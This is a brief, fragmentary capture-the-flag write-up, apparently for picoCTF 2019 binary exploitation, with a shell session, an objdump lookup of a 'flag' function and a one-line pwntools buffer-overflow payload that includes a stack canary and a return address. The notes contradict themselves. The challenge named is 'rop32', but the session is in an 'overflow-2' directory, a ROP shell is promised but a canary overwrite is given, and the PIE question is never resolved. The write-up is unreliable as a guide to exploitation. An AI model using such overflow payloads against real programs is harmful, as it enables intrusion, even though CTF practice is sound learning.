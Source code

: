 # AUR

rop32 - Points: 400 - (Solves: 115)Binary Exploitation - Unsolved
Solve
Hints
Can you exploit the following program to get a flag? You can find the program in /problems/rop32_5_890e5a888b8eea67474a6f4abb7ac81d on the shell server. Source.
This is a classic ROP to get a shell

***

2kofawsome@pico-2019-shell1:~$ cd /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446

2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ objdump -t vuln | grep flag
000007ed g     F .text  00000090              flag
but it is PIE?



Canary is 57Gh

Final payload:

python -c 'from pwn import * ;print "a"*32 + "57Gh" + "a"*60 + p32(0x000007ed)'



Flag:

picoCTF{}

